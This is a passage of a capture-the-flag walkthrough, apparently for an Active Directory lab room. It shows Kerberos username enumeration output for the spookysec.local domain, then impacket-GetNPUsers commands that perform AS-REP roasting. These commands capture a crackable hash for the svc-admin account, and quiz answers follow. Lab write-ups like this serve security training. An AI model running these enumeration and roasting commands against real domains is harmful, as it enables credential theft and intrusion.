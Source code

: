     Version: v1.0.3 (9dad6e1) - 07/15/23 - Ronnie Flathers @ropnop

    2023/07/15 00:48:14 >  Using KDC(s):
    2023/07/15 00:48:14 >   10.10.133.221:88

    2023/07/15 00:48:14 >  [+] VALID USERNAME:       james@spookysec.local
    2023/07/15 00:48:18 >  [+] VALID USERNAME:       svc-admin@spookysec.local
    2023/07/15 00:48:23 >  [+] VALID USERNAME:       James@spookysec.local
    2023/07/15 00:48:25 >  [+] VALID USERNAME:       robin@spookysec.local
    2023/07/15 00:48:44 >  [+] VALID USERNAME:       darkstar@spookysec.local
    2023/07/15 00:48:56 >  [+] VALID USERNAME:       administrator@spookysec.local
    2023/07/15 00:49:19 >  [+] VALID USERNAME:       backup@spookysec.local
    2023/07/15 00:49:29 >  [+] VALID USERNAME:       paradox@spookysec.local
    2023/07/15 00:50:40 >  [+] VALID USERNAME:       JAMES@spookysec.local
    2023/07/15 00:51:04 >  [+] VALID USERNAME:       Robin@spookysec.local
    2023/07/15 00:53:26 >  [+] VALID USERNAME:       Administrator@spookysec.local
    2023/07/15 00:58:08 >  [+] VALID USERNAME:       Darkstar@spookysec.local
    2023/07/15 00:59:46 >  [+] VALID USERNAME:       Paradox@spookysec.local
    2023/07/15 01:04:54 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
    2023/07/15 01:06:22 >  [+] VALID USERNAME:       ori@spookysec.local
    2023/07/15 01:09:06 >  [+] VALID USERNAME:       ROBIN@spookysec.local
    2023/07/15 01:15:46 >  Done! Tested 73317 usernames (16 valid)
    ```
    **Answer:** svc-admin

1. What is the other notable account is discovered? (These should jump out at you)<br>
    The other account is `backup`.<br>
    **Answer:** backup

## Task 5 - Exploitation Abusing Kerberos
1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?<br>
    > After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

    You have to add to hosts file the IP and domain. Then run `impacket-GetNPUUsers` to request TGT and get hashcat format.<br>
    ```
    $ impacket-GetNPUsers spookysec.local/backup@10.10.133.221 -no-pass -request -format hashcat -output backup      
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

    [*] Getting TGT for backup@10.10.133.221
    [-] User backup@10.10.133.221 doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                               
    $ impacket-GetNPUsers spookysec.local/svc-admin@10.10.133.221 -no-pass -request -format hashcat -output backup   
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

    [*] Getting TGT for svc-admin@10.10.133.221
    $krb5asrep$23$svc-admin@10.10.133.221@SPOOKYSEC.LOCAL:14d4b6e04d633cbcaddc59d7602b792a$34e6004538c7e7a8d5f869843c8d6b900341a0ecbbaaa03c9d6be2e0596eda87710eb8ecee00a98de0882981c7350dd28f97b1175b3751eb8b4143f09502db101969c2550aef26fe1c9a3b0189125e68a73e6e319a560f6f90efacee2b329ed39e34d32f0870d2f463e6ec29802d3854773218c6d4e2125eb0c94e827788f3525d89a04ede7e8e12b1fb92171bf4886ef1dc2be99a49487fbc26940f8693c38eb410b0e162edb51f08ef1daa49bb6de19a73778123494cd69687963a2cff3f615342fe84f59a45f40948c99eefce4de853bd400cd5064e5d2de16442aed3c9aaffaa998302a6a7e9067392eff864912422a8
    ```
    User `svc-admin` can request TGT without knowing the password.<br>
    **Answer:** svc-admin
